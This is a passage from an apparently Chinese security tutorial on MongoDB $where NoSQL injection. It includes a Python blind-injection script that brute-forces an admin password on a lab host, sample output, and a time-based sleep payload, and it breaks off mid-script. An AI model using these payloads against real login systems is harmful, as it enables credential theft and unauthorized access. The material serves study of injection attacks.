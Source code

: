 下面给出一个盲注脚本：

```python
import requests

url = "http://192.168.219.130/"

headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

strings = "abcdefghijklmnopqrstuvwxyz1234567890!@#$%^&*()"

res = ""
for i in range(len(res)+1,30):
    if len(res) == i-1:
        for c in strings:
            data = {
                "username": "admin'&&this.password.substr(-" + str(i) + ")=='" + str(c + res) + "') {return true;}})//",
                "password": "123456"
            }
            r = requests.post(url=url,headers=headers, data=data)
            if "Login Success" in r.text:
                res = c + res
                print("[+] " + res)
                break
    else:
        print("[-] Failed")
        break

# 输出如下: 
# [+] 6
# [+] 56
# [+] 456
# [+] 3456
# [+] 23456
# [+] 123456
```

**$where 操作符时间盲注**

时间盲注也很好理解了，还是用上面那个 index.php 演示，直接给出 payload：

```php
username=admin'%26%26this.password.substr(-1)=='6') {sleep(2000);}})//&password=1
```

如果匹配正确则会有 2 秒的延迟，下面给出时间盲注脚本：

```python
import time
import requests

url = "http://192.168.219.130/"

headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

strings = "abcdefghijklmnopqrstuvwxyz1234567890!@#$%^&*()"

res = ""
for i in range(len(res)+1,30):
    if len(res) == i-1:
        for c in strings:
            data = {
```
